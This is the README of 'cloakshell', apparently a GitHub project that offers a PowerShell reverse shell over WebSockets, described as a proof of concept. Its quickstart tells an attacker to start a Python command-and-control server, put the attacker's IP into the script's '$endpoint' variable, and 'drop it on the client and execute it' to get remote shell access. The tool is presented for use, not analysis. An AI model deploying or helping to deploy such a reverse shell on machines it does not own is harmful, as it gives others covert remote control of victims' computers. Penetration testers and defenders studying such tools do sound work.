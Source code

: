 # cloakshell
Powershell reverse shell via WebSockets

#### ⚠️ Work in progress ⚠️
This project is very much a work in progress. Call it a proof of concept if you
like.

If you know better ways to implement what you see, hit me up with a PR.

#### Quickstart

On the attacker machine install the dependencies and run the command and control server.

```
pip install -r requirements.txt
python control.py
```

In cloakshell.ps1, change the IP address in the `$endpoint` variable to your attacker's IP address. Now drop it on the client and execute it.

```
.\cloakshell.ps1
```

That's it! You have a (somewhat) functional reverse shell over websockets.
